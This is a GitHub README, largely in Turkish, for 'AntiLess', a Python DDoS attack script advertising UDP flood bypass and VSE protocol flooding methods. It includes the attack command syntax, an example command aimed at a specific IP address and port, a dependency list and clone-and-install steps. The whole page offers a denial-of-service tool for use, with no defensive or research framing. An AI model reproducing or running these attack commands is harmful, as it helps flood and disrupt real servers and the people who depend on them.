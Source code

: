 
<em><h5 align="center">AntiLess - DDoS Saldırı Scripti > 9 Method</h5></em>
<em><h5 align="center">(Programlanma dili - Python 3)</h5></em>


<em><h5 align="center">(If it worked for you, don't forget to Fork and Star)</h5></em>
<em><h5 align="center">(Eğer işine yaradıysa Fork ve Star atmayı unutma)</h5></em>


## Özellikler ve methodlar

* Layer4: 
  * UDP | UDP Flood Bypass
  * VSE | Protokol gönderimi (DDraceNetwork ✅)

* ⚙️ Tools - Nasıl kullanılır
`
python3 anti.py tools
`
  * ☢️  PING | Serverların pinlglerini ölçer.
  * ✔️ CHECK | Sitelerin durumunu checkler.

**Nasıl kullanılır?**

```shell
python3 anti.py <method> <ip:port> <threads> <duration> <config.json (Güçlendirme)>
```

```shell
ÖRNEK ÇIKTI: python3 anti.py VSE 62.106.84.67:8332 2 1000 config.json 100 600
```
```shell
not: ip - port - method ve diğer değişkenleri kendinize göre değiştirin.
```

**Gerekliler**

* [dnspython](https://github.com/rthalley/dnspython)
* [cfscrape](https://github.com/Anorov/cloudflare-scrape)
* [impacket](https://github.com/SecureAuthCorp/impacket)
* [requests](https://github.com/psf/requests)
* [Python3][python3]
* [Antiless](https://github.com/antilagg/Antiless)
* [icmplib](https://github.com/ValentinBELYN/icmplib)
* [certifi](https://github.com/certifi/python-certifi)
* [psutil](https://github.com/giampaolo/psutil)
* [yarl](https://github.com/aio-libs/yarl)
---

```shell
git clone https://github.com/antilagg/Antiless-DDoS.git
cd Antiless-DDoS
pip install -r moduller.txt
```

[python3]: https://python.org 'Python3'

---
